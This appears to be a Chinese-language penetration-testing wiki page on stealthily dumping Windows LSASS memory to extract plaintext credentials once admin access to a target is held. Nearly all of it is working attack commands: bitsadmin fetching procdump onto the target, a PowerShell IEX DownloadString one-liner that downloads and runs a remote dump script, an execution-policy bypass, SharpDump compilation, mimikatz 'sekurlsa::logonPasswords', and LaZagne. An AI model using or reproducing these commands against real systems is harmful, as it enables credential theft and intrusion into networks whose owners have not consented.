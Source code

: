 # 免杀抓取明文

## 1、前提条件

必须已经事先拿到目标机器的管理权限,且看到有管理员的登录会话

```text
query user
```

![](../../.gitbook/assets/image%20%28435%29.png)

## 2、Prodump

直接指定 lsass.exe 进程名进行抓取即可,之后只需把生成的 lsass.dmp 文件拖回本地

```text
cd c:\Windows\Temp

bitsadmin /rawreturn /transfer getfile https://raw.githubusercontent.com/klionsec/CommonTools/master/procdump.exe c:\windows\temp\dump.exe

dump.exe -accepteula -ma lsass.exe lsass.dmp
```

![](../../.gitbook/assets/image%20%28442%29.png)

接着,再在本地用 mimikatz.exe 去加载读取即可\[版本保持一致\]

```text
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28443%29.png)

## 3、powershell

### 1、远程执行： 

只适用于 2008r2 之后的系统

```text
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/klionsec/CommonTools/master/Out-Minidump.ps1'); Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp"

tasklist | findstr /c:"egui.exe" /c:"ekrn.exe"

dir c:\windows\Temp | findstr "lsass
```

![](../../.gitbook/assets/image%20%28439%29.png)

同样,之后只需把 lsass\_504.dmp 文件拖到本地机器再用 mimikatz.exe 加载读取即可

```text
mimikatz.exe "sekurlsa::minidump lsass_596.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28434%29.png)

### 2、本地执行

```text
powershell –exec bypass –Command "& {Import-Module 'C:\Tools\Out-Minidump.ps1'; Get-Process lsass | Out-Minidump -DumpFilePath c:\windows\temp}"
```

![](../../.gitbook/assets/image%20%28438%29.png)

PS: powershell 导 lsass.exe 进程数据差不多文件要比用 prodump 导的小 10M 左右

```text
mimikatz.exe "sekurlsa::minidump lsass_596.dmp" "sekurlsa::logonPasswords full" exit
```

![](../../.gitbook/assets/image%20%28436%29.png)

## 4、sharpDump

项目地址：[https://github.com/GhostPack/SharpDump](https://github.com/GhostPack/SharpDump) 

将.sln用MSBuild编译成.exe     

```text
%SystemRoot%\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe E:\SharpDump-master\SharpDump.sln /t:Rebuild /p:Configuration=Release
```

![](../../.gitbook/assets/image%20%28431%29.png)

直接运行：

![](../../.gitbook/assets/image%20%28430%29.png)

需要线把 bin 重命名为 zip 后缀,然后正常解压出里面的 文件,再给 mimikatz 去读取即可

```text
mimikatz.exe "sekurlsa::minidump debug596" "sekurlsa::logonPasswords full" "exit"
```

![](../../.gitbook/assets/image%20%28432%29.png)

## 5、LaZagne\(python\)

项目地址：[https://github.com/AlessandroZ/LaZagne/releases](https://github.com/AlessandroZ/LaZagne/releases)

下载直接运行`lazgne.exe all`

![](../../.gitbook/assets/image%20%28445%29.png)

![](../../.gitbook/assets/image%20%28433%29.png)



